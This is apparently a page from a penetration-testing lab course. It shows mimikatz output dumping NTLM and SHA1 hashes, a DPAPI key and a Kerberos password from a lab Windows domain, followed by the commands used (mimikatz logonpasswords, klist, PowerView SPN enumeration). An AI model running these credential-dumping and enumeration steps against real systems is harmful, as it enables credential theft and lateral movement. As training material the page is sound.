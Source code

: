 ```powershell-session
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 1284107 (00000000:0013980b)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70669 (00000000:0001140d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname